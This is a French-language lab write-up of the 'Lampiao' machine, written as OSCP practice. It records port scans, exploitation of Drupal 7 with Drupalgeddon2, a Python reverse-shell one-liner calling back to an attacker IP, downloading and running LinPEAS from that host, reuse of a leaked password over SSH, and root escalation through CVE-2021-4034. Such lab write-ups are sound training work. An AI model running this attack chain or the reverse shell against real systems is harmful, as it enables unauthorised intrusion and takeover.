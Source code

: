 # LAMPIAO

    sudo nmap -A -p1-10000 192.168.206.48
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.206.48 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.206.48

Scans classiques.

Le serveur web du port 80 amène juste sur un dessin en ASCII mais il semble y avoir un deuxième serveur web sur le port 1898.

    whatweb http://192.168.206.48:1898

On voit que le site utilise Drupal v7, cela se remarque aussi dans le code source. L'un des articles mentionne des fichiers ainsi que des tests, et les fichiers en question se trouvent bien à la racine du site web puisque l'URL http://192.168.206.48:1898/audio.m4a fonctionne bien par exemple.

J'ai donc lancé des scans sur les fichiers à la racine du site web en parallèle de mes recherches sur Drupal :

    feroxbuster -u http://192.168.206.48:1898/ -x log,txt,php,conf,html
    ffuf -u http://192.168.206.48:1898/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt -e .php,.txt,.ini,.conf,.html -fc 404

Je n'ai rien trouvé d'intéressant dans les fichiers obtenus, même dans le **robots.txt** qui était bien rempli, mais j'ai trouvé un exploit très intéressant sur Drupal : https://github.com/dreadlocked/Drupalgeddon2

J'ai vu que l'on pouvait directement obtenir un shell Meterpreter en passant par Metasploit mais j'ai souhaité reproduire l'exploit sans ces deux outils pour mieux me préparer pour l'OSCP.

    ruby Drupal.rb http://192.168.206.48:1898/
    ...
    lampiao>> ls /home
    lampiao>> cat /home/tiago/local.txt

Le shell PHP était assez contraignant, j'ai donc opté pour un reverse-shell en Python classique, récupéré sur le site https://www.revshells.com/

    lampiao>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.230",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

Et de l'autre côté : 

    rlwrap nc -nvlp 9999

Les vérifications classiques n'ont pas fonctionné, je suis donc passé par LinPEAS : 

    wget http://192.168.45.230/linpeas.sh
    chmod u+x linpeas.sh
    ./linpeas.sh | tee linpeas.txt

Dans la catégorie **"Searching passwords in config PHP files"** on voit les trois lignes suivantes :

> 'password' => 'Virgulino',   
> 'password' => 'password',   
> 'password' => 'password',

J'ai donc tenté de me connecter avec le premier mot de passe sur l'autre utilisateur, cela a fonctionné mais ne m'a pas plus avancé pour l'élévation de privilèges.

    ssh 192.168.206.48 -l tiago
    
J'ai ensuite remarqué le CVE 2021-4034 qui sortait du lot et qui était surligné par LinPEAS. Il suffisait tout simplement de l'appliquer pour passer root. 

Voir : https://github.com/berdav/CVE-2021-4034/blob/main/cve-2021-4034.sh

    ./CVE.sh
    ls /root
    cat /root/proof.txt



